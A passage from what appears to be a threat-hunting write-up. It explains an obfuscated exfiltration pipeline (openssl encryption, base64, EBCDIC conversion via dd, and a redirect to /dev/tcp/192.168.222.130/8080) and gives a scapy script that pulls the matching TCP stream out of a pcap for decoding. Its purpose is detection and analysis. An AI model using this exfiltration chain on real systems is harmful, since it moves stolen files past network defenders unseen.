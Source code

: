    The result of this part is encrypted data from `data.zip`.

3. **Encoding to Base64**:

   - `| base64`: The pipe `|` passes the encrypted output from `openssl` to `base64`.
   - `base64`: Encodes the encrypted data into Base64, converting binary data into text to facilitate transmission.

4. **Converting to EBCDIC Encoding**:

   - `| dd conv=ebcdic`: The pipe `|` sends the Base64-encoded data to `dd`.
   - `dd conv=ebcdic`: Converts the data from ASCII (default) encoding to EBCDIC (Extended Binary Coded Decimal Interchange Code), a character encoding system typically used on IBM mainframes.

5. **Transmitting Encrypted Data via TCP**:
   - `> /dev/tcp/192.168.222.130/8080`: Redirects the final encrypted, Base64-encoded, and EBCDIC-encoded data to a TCP connection targeting IP address `192.168.222.130` on port `8080`.

## Hunting

This Python script is designed to extract raw TCP data from a pcap file, convert it from EBCDIC to ASCII, decode it from Base64, and decrypt it using OpenSSL.

### Step 1: Extracting Raw TCP Data

The script below reads packets from a specified pcap file, filters them based on IP and port conditions, orders them by TCP sequence, and then assembles the data in the correct sequence.

```python
from scapy.all import rdpcap, TCP, IP, Raw

def extract_tcp_data(pcap_file):
    """Extracts raw data from TCP packets matching filter conditions"""
    packets = rdpcap(pcap_file)
    assembled_data = b""

    print(f"\nAnalyzing {len(packets)} packets from {pcap_file}...")

    # Sort packets by sequence number to ensure correct order
    data_packets = []
    for packet in packets:
        if (packet.haslayer(TCP) and packet.haslayer(IP) and packet.haslayer(Raw) and
            packet[IP].src == '192.168.222.145' and
            packet[TCP].sport == 36568 and
            packet[IP].dst == '192.168.222.130' and
            packet[TCP].dport == 8080):
            data_packets.append(packet)

    # Sort by TCP sequence
    data_packets.sort(key=lambda p: p[TCP].seq)

    # Combine packet data
    for packet in data_packets:
        assembled_data += packet[Raw].load

    return assembled_data
```
